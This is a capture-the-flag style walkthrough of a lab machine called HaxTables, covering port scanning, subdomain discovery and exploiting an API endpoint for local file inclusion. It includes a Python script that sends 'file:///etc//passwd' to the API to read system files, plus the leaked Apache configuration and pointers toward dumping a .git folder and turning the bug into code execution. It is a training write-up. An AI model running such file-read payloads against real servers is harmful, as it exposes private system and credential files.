## RUSTSCAN:
`PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: HaxTables
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port`
* * *
## SSH:
So far we can't do that much with SSH on port 22 or not untill we can find some credentials to login.
SSH is pretty new and no known Exploits are in the Wild.
* * *
## HTTP:
Some subdomains have been found:


Now surfing the website and opening the API tab we can find some informations about the API, and maybe a possible Subdomain?


let's add those subdomains and add continue with enumeration...
Now i tried do some manual enumeration with lfi but no success on the main website:


Then trying to do a Webdirectory fuzzing on the Api subdomains we can find 3 different API versions:


Now checking what API pages gives us, seems like this can be exploited as LFI??
import requests
json_data = {
    'action': 'str2hex',
    'file_url' : 'file:///etc//passwd'
}
response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(response.text)

Running this script should give us back the hex string of a LFI...


trying to read for /etc/hosts:



We know there are the other website image, so let's check if we can read the Apache sites config? Checking the default "site-enabled" path from my linux machine we try to fetch all available websites:

`<VirtualHost *:80>
	ServerName haxtables.htb
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
	ServerName api.haxtables.htb
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/api
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
<VirtualHost *:80>
        ServerName image.haxtables.htb
        ServerAdmin webmaster@localhost    
	DocumentRoot /var/www/image
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
	#SecRuleEngine On
	<LocationMatch />
  		SecAction initcol:ip=%{REMOTE_ADDR},pass,nolog,id:'200001'
  		SecAction "phase:5,deprecatevar:ip.somepathcounter=1/1,pass,nolog,id:'200002'"
  		SecRule IP:SOMEPATHCOUNTER "@gt 5" "phase:2,pause:300,deny,status:509,setenv:RATELIMITED,skip:1,nolog,id:'200003'"
  		SecAction "phase:2,pass,setvar:ip.somepathcounter=+1,nolog,id:'200004'"
  		Header always set Retry-After "10" env=RATELIMITED
	</LocationMatch>
	ErrorDocument 429 "Rate Limit Exceeded"
        <Directory /var/www/image>
                Deny from all
                Allow from 127.0.0.1
                Options Indexes FollowSymLinks
                AllowOverride All
                Require all granted
        </DIrectory>
</VirtualHost>
`

Now that we know we have the local path of the Image website shall we try to read for example the index.php? (when i tried the website was not working which could be cause it is only available from inside...)

We see that images have a file utils that we couldn't find before with dirbuster:


let's do same and read it:


Seems like it logs the changes to git so let's try to do same and read that bash script:


Now we know that we should have a git repo under /var/www/image/.git and checking how is the .git folder structure since we can't run any commands or do a git dumper we must do a manual LFI on singular files.
https://www.delftstack.com/howto/git/git-directories/


From here we can try to read files:


Then HEAD file which is the Master branch is pointing to /refs/heads/master so can we find something there???
Edit: Here i had to check for tips and apparently seems like git-dumper was not working since it was getting 403 and it was failing there but the key was to use another tool instead:
https://github.com/internetwache/GitTools

This will ignore the 403 and will dump the whole .git folder. Then the git log is not working so now we need to reconstruct the website:


Using this extractor we can reconstruct the "broken" git repo and see what logs and code can we read... Edit: is not working but i had to give up and check for tips.

Apparently doing what we did with api LFI we could dump the api/hanlder.php and check the code:


And knowing that the convert program uses the php://filter: https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters#tools

* * *